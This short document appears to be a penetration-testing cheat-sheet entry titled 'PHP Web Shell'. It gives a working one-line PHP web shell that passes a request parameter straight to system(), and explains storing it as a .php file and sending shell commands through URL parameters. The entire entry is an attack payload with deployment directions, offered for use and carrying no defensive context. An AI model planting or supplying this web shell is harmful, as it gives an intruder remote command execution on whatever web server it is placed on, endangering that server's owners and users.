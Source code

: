 ## PHP Web Shell

Most common PHP web shell:

```php
<?php system($_REQUEST[0]); ?>
```

To be stored in a file.php loaded via browser.
Arguments can be passed via URL get arguments. Each argument represent one word in the command line, "spaces" are inserted automatically. 
The command goes to param 0 separated via spaces (URL-encoded, Firefox encodes some chars automatically, other chars may need escaping via %-codes)
